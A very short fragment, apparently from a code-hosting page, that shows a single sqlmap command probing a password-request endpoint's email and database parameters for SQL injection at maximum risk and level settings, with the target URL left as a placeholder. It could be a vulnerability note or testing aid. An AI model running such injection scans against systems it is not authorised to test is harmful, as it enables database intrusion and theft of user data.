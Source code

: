 # Risk
```python
sqlmap.py -u '<URL>/req_password_user.php?email=test@test.com&selected_db=xtp001' --risk=3 --level=5
```
